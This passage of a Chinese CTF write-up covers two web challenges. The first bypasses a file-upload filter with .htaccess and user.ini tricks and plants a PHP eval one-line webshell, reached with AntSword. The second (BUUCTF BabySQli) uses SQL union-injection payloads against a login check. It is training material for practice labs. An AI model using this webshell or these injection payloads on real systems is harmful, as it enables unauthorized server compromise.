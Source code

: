 2.先写一下.htaccess和user.ini两个配置文件，会发现

![image-20240426202003132](C:\Users\86182\assets\image-20240426202003132.png)

所以要改一下，SetHandler application/x-httpd-php这样写

#### 3.要改Content-Type:image/jpeg是图片的样式，application/octet-stream是php样式。

4.过滤<?可以用JS辅助写一句话木马

<script language="php">@eval($_POST[aaa]);</script>

蚁剑连接查看。

## BUUCTF [GXYCTF2019]BabySQli 1

![image.png](https://img-blog.csdnimg.cn/img_convert/6a38d3e45f32eceef1727c3a2b07aea9.png)



burp抓包：初看应该是sql注入

![image.png](https://img-blog.csdnimg.cn/img_convert/87b8cc9d7c33f114c34c155c5bfe169c.png)

找到隐藏信息，双重加密，base32解码后再base64解码，

得到 select * from user where username = '$name'

找到注入点，可以知道$name是参数，并且就是第一个输入的值

万能钥匙不能直接进去，换成0‘ ||TRUE#不能用（显示密码错误） 换个角度，联合注入1’‘ unoin select 1,2#发现报错列数错了加一个1’‘ unoin select 1,2,3#显示wrong user一个一个试将那个$name=数组的那个

发现是第二个

![image.png](https://img-blog.csdnimg.cn/img_convert/7b865fe304a063e64dceb70d90e59afb.png)

找到

if($arr[1] == "admin")

{ 		if(md5($password) == $arr[2])

​                   { 			echo $flag; 		} 		

​             else{ 			die("wrong pass!"); 		} 	}

换种方式猜测
username数据表里面的3个字段分别是flag、name、password。
猜测只有password字段位NULL
咱们给参数password传入的值是123
那么传进去后，后台就会把123进行md5值加密并存放到password字段当中
当我们使用查询语句的时候
我们pw参数的值会被md5值进行加密
然后再去与之前存入password中的md5值进行比较
如果相同就会输出flag
